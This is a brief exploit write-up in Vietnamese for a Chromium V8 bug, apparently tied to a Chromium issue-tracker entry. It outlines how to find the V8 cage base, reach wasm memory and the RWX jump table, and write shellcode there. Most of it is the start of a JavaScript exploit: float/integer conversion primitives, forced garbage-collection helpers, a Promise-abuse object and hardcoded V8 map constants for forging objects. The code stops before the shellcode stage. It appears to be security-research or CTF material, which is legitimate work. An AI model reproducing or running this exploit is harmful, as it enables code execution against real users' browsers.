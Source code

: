 * [link](https://issues.chromium.org/issues/334120897)
* Ở đây đầu tiên thấy cage base nằm ở đoạn đầu của cage
* Sau khi có `cage_base`, debug thấy `memory` của `wasm` ở vị trí `cage_base + 0x380000000`
* Có được địa chỉ `rwx` ở `wasmInstance->jump_table_start`
* Còn lại chỉ cần ghi shellcode vào vùng này 

```javascript=
function dp(obj) {}//%DebugPrint(obj)}
function dpp(ptr) {}//%DebugPrintPtr(ptr)}

let buf = new ArrayBuffer(8);
let f64 = new Float64Array(buf);
let i64 = new BigUint64Array(buf);
let i32 = new Uint32Array(buf);

function itof(val) {
    i64[0] = BigInt(val);
    return f64[0];
}

function ftoi(val) {
    f64[0] = val;      
    return i64[0];
}

function pair_32_to_f(low, high)
{
    i32[0] = low;
    i32[1] = high;
    return f64[0];
}

function mark_sweep_gc() {
    new ArrayBuffer(0x7fe00000);
}

function scavenge_gc() {
    for (var i = 0; i < 8; i++) {
        new ArrayBuffer(0x200000)
    }
    new ArrayBuffer(8)
}

function PromiseLike(executor) {
    executor(()=>{}, ()=>{});
}
PromiseLike.resolve = function() {
    return {then: function(resolve, reject) {
        Promise.resolve().then(() => {throw new Error("ngu")}).then(null, (e)=>{console.log(e.stack)}).then(null, reject);
        reject()
        // resolve()
        // dp(resolve)
    }};
}

function foo() {}
foo() // this used for fake jsfunction
let promiseMap = 0x018b445
let reactionMap = 0x12dd
let generatorMap = 0x019a1b1
let packDoubleArrMap = 0x18ec11
let packElementMap = 0x18ec91
let emptyFixedArray = 0x6a5
```